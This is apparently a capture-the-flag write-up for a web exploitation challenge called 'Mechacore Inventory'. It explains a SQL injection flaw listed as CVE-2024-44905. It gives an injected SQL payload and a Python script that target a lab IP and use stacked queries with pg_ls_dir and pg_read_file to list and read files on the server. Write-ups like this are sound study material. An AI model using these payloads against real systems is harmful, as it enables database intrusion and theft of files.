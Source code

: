 ```yaml
---
title: "Mechacore Inventory"
category: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 120
solves: -1
flag: THM{REDACTED}
---
```

> Virelia bought another Mechacore piece of junk. It's now an inventory system for their manufactured parts. Why a water company needs to create robot parts escapes me completely. Maybe we can access the server and clear our doubts.

---

This is `CVE-2024-44905` you can read more about it [Double Dash, Double Trouble: A Subtle SQL Injection Flaw](https://www.sonarsource.com/blog/double-dash-double-trouble-a-subtle-sql-injection-flaw/)

The vulnerable SQL query is as follows:

`item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-? or item.name=?`

Because there is a `-` in the query, it is possible to inject a negative number to comment the query after.

```sql
item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-- or item.name=foo
); INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) 
VALUES ($$TEST$$,$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1);--
```

Because single quotes are not allowed, we can use `$$` to delimit the string.

```py
import requests

# url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_ls_dir($$/home/ubuntu/$$),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"
url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_read_file($$/home/ubuntu/flag-12376287432546781647235.txt$$, 0, 10000),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"

response = requests.get(url)
if response.status_code == 200:
    print("Request was successful.")
else:
    print(f"Request failed with status code: {response.status_code}")

print("Response content:", response.text)
```

